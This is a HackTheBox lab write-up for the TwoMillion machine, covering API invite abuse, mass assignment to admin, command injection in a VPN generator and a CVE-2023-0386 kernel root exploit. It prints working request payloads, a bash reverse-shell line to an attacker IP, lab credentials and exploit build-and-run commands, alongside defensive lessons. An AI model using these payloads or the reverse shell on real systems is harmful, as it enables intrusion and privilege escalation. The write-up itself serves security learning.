



<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Linux (Ubuntu 22.04), **Difficulty:** Easy, **Released:** 2023-06-06, **IP:** `10.10.11.221` , `2million.htb`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. This is a recreation of the old HackTheBox invite page. Deobfuscate its JavaScript, call `POST /api/v1/invite/generate` for a code, and register.
2. Enumerate `/api/v1`. `PUT /api/v1/admin/settings/update` accepts an undocumented **`is_admin`** field (**mass assignment**), which flips your account to admin.
3. `POST /api/v1/admin/vpn/generate` puts `username` into a shell command. **Command injection** (`baphomet;id;`) gives a shell as `www-data`.
4. `/var/www/html/.env` holds DB creds `admin : SuperDuperPass123`, reused for the local `admin` account (`su admin`).
5. A mail to `admin` warns about an OverlayFS / FUSE kernel CVE. **CVE-2023-0386** gets root.

</div>

<div class="callout callout-key">

**Credentials and Flags**


| Where | Value |
| --- | --- |
| `.env` (DB, reused for the `admin` user) | `admin : SuperDuperPass123` |
| `user.txt` | `/home/admin/user.txt` |
| `root.txt` | `/root/root.txt` |

</div>

---

## Overview

When I sat down with TwoMillion, I quickly realized it was going to be an **API box** from start to finish, and that shaped how I approached the whole engagement. Rather than clicking around a rendered site, I spent most of my time reading JSON responses and probing routes directly. The foothold turned out to be three separate API sins stacked one after another: an endpoint that happily mints its own invite codes with no real gatekeeping, **mass assignment** on a settings update where the client can set fields the server never intended it to touch (in this case, `is_admin`), and **command injection** tucked inside an admin action. Each of those is a textbook OWASP API Security Top 10 finding, and chaining all three back to back is what made this box satisfying to work through rather than a single lucky break. For privilege escalation, I leaned on a topical kernel CVE, **CVE-2023-0386**, an OverlayFS `setuid` copy-up bug that was still fresh news when this box was released, which made it a fun one to actually exploit rather than just read about.

If I had to distill the whole box into one sentence, it would be this: the server has to decide for itself what a client is allowed to do, and it can never trust a field just because it showed up in the request body. Every stage of this chain, from the invite generator through to the root exploit, is really just a variation on that same theme.

I have run into this same family of bugs on other boxes, so it is worth cross-referencing them. For mass assignment and related API abuse, I wrote up similar issues in [Rabbit Store](/writeups/tryhackme/linux/medium/rabbit-store/), [Interface](/writeups/hackthebox/linux/medium/interface/), and [Takedown](/writeups/tryhackme/linux/insane/takedown/). On the command injection side, [Nocturnal](/writeups/hackthebox/linux/easy/nocturnal/), [Previse](/writeups/hackthebox/linux/easy/previse/), and [Headless](/writeups/hackthebox/linux/medium/headless/) all cover the same core weakness in different disguises. And if a kernel CVE turning into root interests you, I walked through a similar GAMEOVERLAY-style escalation in [Analytics](/writeups/hackthebox/linux/easy/analytics/).

---

## Full Walkthrough



Right away I noticed an alternative domain pointing at the machine, which is usually a strong hint that the "real" application lives there rather than on the bare IP, so I added it to my hosts file and pivoted my testing over to it.

The invite page immediately caught my attention because it loads a chunk of obfuscated JavaScript instead of just serving a plain sign-up form, which told me the developers were trying to hide the invite-code logic on the client side rather than actually protecting it server-side. I ran it through `js-beautify` (the browser dev tools would have worked just as well) to get something readable, and once I could actually follow the logic I found it calls `/api/v1/invite/how/to/generate`, which hands back a ROT13-encoded hint, and that hint ultimately points at `POST /api/v1/invite/generate`, which returns a base64-encoded code.

```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq -r .data.code | base64 -d
```

With a valid code in hand, I registered an account and logged in. My next move was to systematically map out the API surface rather than guess at endpoints, since a self-documenting `/api/v1` root is common on boxes like this and worth checking first.

```bash
curl -s http://2million.htb/api/v1 -H "Cookie: PHPSESSID=..." | jq        # lists routes
curl -s http://2million.htb/api/v1/admin -H "Cookie: PHPSESSID=..." | jq   # admin routes
```



That listing pointed me at an `/api/v1/admin` namespace, so naturally I wanted to know whether my freshly registered account had any admin rights at all before going further. Hitting `/api/v1/admin/auth` confirmed what I expected: a normal user gets back `{"message":false}`, which told me I needed to find a way to flip that flag rather than look for a separate authentication bypass.

### Mass assignment, become admin



I probed `PUT /api/v1/admin/settings/update` with an empty body just to see how the server would react, and the error messages did most of the work for me. It first complained that `email` was missing, and once I supplied that, it complained that `is_admin` was missing, and once I supplied that too, it told me `is_admin` had to be `0` or `1`. That progression of validation errors was effectively the server confessing, field by field, exactly what it expected in the request, which told me it was almost certainly reading `is_admin` straight out of the request body and writing it directly to my user record:

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=i1i7usod2hs92bbjtd1k3ca0qv
Content-Type: application/json

{"email":"baphomet@2million.htb","is_admin":1}
```

<div class="callout callout-note">

**Mass assignment**

My working theory here is that the endpoint does something like `User::where(...)->update($request->all())` under the hood. That pattern takes every field the client happened to send and writes it straight to the database row, including `is_admin`, a field no legitimate client should ever need to send at all. It is a classic case of the framework's convenience becoming the developer's liability: `->update($request->all())` is one line to write and feels harmless, but it silently trusts the entire request body. The real fix is to use an allowlist on the server side and only ever update the specific columns that feature is actually meant to change, everything else gets ignored no matter what the client submits. What made this one trivial to find rather than merely theoretical was the API's own error handling: each response told me exactly which field it wanted next (`is_admin is required`, then `is_admin must be 0 or 1`), which is a good reminder that overly verbose validation errors can hand an attacker your data model for free.

</div>

Sure enough, when I re-checked `GET /api/v1/admin/auth` it now returned `true`, confirming the write went through and I was sitting on an admin session.

### Command injection in vpn/generate

With admin access secured, I turned to enumerating what admin-only actions the API exposed, and a VPN configuration generator stood out immediately. Anything that takes a username and hands back a generated file smells like it is shelling out to an external binary somewhere behind the scenes, so I wanted to test whether that username value was making it into a command unsanitized before I did anything else with it.

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=i1i7usod2hs92bbjtd1k3ca0qv
Content-Type: application/json

{"username":"baphomet;id;"}
```

I tested with a harmless `id` appended after a semicolon first, just to confirm code execution without committing to a full reverse shell yet, and the response confirmed it: I had RCE.

<div class="callout callout-note">

**Command injection**

Digging into why this worked, the VPN generator is clearly shelling out to `openvpn`/`bash` with the username interpolated directly into the command string, something like `... "$username" ...` with no sanitization in between. A semicolon inside that value closes out the command the developer intended to run and lets me start an entirely new one of my own choosing. Once I had confirmed that `;id;` executed, escalating to a real shell was just a matter of swapping the payload for `bash -c 'bash -i >& /dev/tcp/10.10.14.238/9001 0>&1'`, which gave me a reverse shell as `www-data`. The takeaway for anyone building something similar: never let user input touch a shell string, build an argument array and call the binary directly, or at minimum validate the input against a strict allowlist pattern before it goes anywhere near a subprocess call.

</div>

### www-data to admin

Landing a shell as `www-data` in a web root, my instinct is always to check for a `.env` file before anything else, since PHP applications routinely leave database credentials and other secrets sitting in plaintext right next to the code that uses them.

```bash
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

That handed me database credentials outright. The `users` table itself only had bcrypt password hashes, which were not worth attacking directly, but the far more interesting angle was password reuse: it is extremely common for administrators to reuse a database password as their own login password, so I tried the DB credentials against the local `admin` account rather than bothering to crack any hashes.

```bash
su admin        # SuperDuperPass123
```

That worked immediately, and `user.txt` was sitting right there in the home directory. While poking around as `admin`, I also noticed a memcached instance listening on `127.0.0.1:11211`, which I tunneled out with chisel out of curiosity, but it turned out to be a dead end rather than a path forward. The real lead was in the mailbox, so I read the local mail next:

```
From: ch4p <ch4p@2million.htb>
Subject: Urgent: Patch System OS

... can you also upgrade the OS on our web host? There have been a few serious
Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty.
```

### Privilege Escalation, CVE-2023-0386

That email was a direct nudge from the box author, and I take those hints seriously since they usually point straight at the intended path. It explicitly called out an OverlayFS/FUSE kernel bug, so my next step was to check the kernel version and match it against known CVEs from that window.

<div class="callout callout-note">

**CVE-2023-0386, OverlayFS setuid copy-up**

The mechanics of this one are worth understanding rather than just running the exploit blindly. On kernels before the fix, when an overlay mount has a lower directory containing a **setuid root** binary, and an unprivileged user inside a user namespace triggers a copy-up of that file into the writable upper layer, the kernel makes a mistake: it preserves the setuid bit and the root ownership on the newly copied file, even though that user never had permission to create a root-owned setuid binary in the first place. In practice that means I mount an overlay filesystem where the lower directory contains a setuid `bash`, force a copy-up of that file into the upper layer, and then execute the resulting upper-layer binary with `-p` to keep the elevated privileges bash would otherwise drop. It is a subtle failure in how the kernel tracks capability and ownership checks across the overlay boundary rather than anything to do with the application layer, which is exactly why kernel LPEs like this one are so dangerous: they bypass every access control the application itself might have gotten right. I did not need to write this exploit from scratch, since the public PoC from `sxlmnwb/CVE-2023-0386` implements the whole sequence: running `./fuse ./ovlcap/lower ./gc` in one terminal and `./exp` in a second terminal does the copy-up and privilege escalation automatically.

</div>

Before landing on CVE-2023-0386, I actually tried CVE-2021-3493 first, since it is also an older OverlayFS capability bug and a common go-to for boxes in this era. It did not get any traction against this particular kernel build, which told me I needed something more recent, so I moved on to CVE-2023-0386, and this time it worked cleanly:

```bash
git clone https://github.com/sxlmnwb/CVE-2023-0386 && cd CVE-2023-0386 && make
# terminal 1
./fuse ./ovlcap/lower ./gc
# terminal 2
./exp
# -> root shell
cat /root/root.txt
```

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `/home/admin/user.txt` |
| `root.txt` | `/root/root.txt` |

---

## Lessons and Takeaways

Working through this box end to end reinforced a few things I keep coming back to on API-heavy targets:

- **Allowlist writable fields, always.** Passing `request.all()` (or its equivalent in any framework) straight into an update call is a shortcut that will eventually bite you. Mass assignment quietly turns an ordinary settings form into a privilege escalation vector, and the fix costs almost nothing: explicitly name the columns a given feature is allowed to touch and drop everything else on the floor.
- **Never let user input reach a shell string.** The VPN generator's command injection existed purely because a username was concatenated into a shell command instead of passed as a discrete argument. Building an argv array, or at minimum validating input against a strict pattern like `^[a-zA-Z0-9_]+$` before it goes anywhere near a subprocess, closes this off entirely.
- **Rate limit and gate sensitive generation endpoints.** An invite system that mints its own codes on demand, with no throttling and no oversight, is not really access control at all, it is a formality that happens to look like one.
- **Treat `.env` files as radioactive.** Keeping one inside the web root, readable by the same account serving requests, is asking for it to leak the moment any other bug grants file read or code execution. Keep secrets out of the document root, and just as importantly, never reuse a database password as a login password for a human account, that single habit is what let me pivot from `www-data` to `admin` here.
- **Stay current on kernel patches.** OverlayFS, nsfs, and io_uring local privilege escalations have shown up on a steady cadence over the past few years, and CVE-2023-0386 is just one entry in that ongoing pattern. A box that is otherwise hardened at the application layer can still fall to an unpatched kernel, which is a good reminder that patching discipline has to extend below the application stack.

---

## Related Writeups

- **API abuse / mass assignment / IDOR:** [Rabbit Store](/writeups/tryhackme/linux/medium/rabbit-store/), [Interface](/writeups/hackthebox/linux/medium/interface/), [Takedown](/writeups/tryhackme/linux/insane/takedown/)
- **Command injection:** [Nocturnal](/writeups/hackthebox/linux/easy/nocturnal/), [Previse](/writeups/hackthebox/linux/easy/previse/), [Headless](/writeups/hackthebox/linux/medium/headless/)
- **`.env` to DB to password reuse:** [Nocturnal](/writeups/hackthebox/linux/easy/nocturnal/), [Cat](/writeups/hackthebox/linux/medium/cat/)
- **Kernel LPE to root:** [Analytics](/writeups/hackthebox/linux/easy/analytics/)

## References

- CVE-2023-0386 (OverlayFS) <https://ubuntu.com/security/CVE-2023-0386>
- OWASP API Security Top 10 <https://owasp.org/API-Security/>
- PoC: sxlmnwb/CVE-2023-0386 <https://github.com/sxlmnwb/CVE-2023-0386>
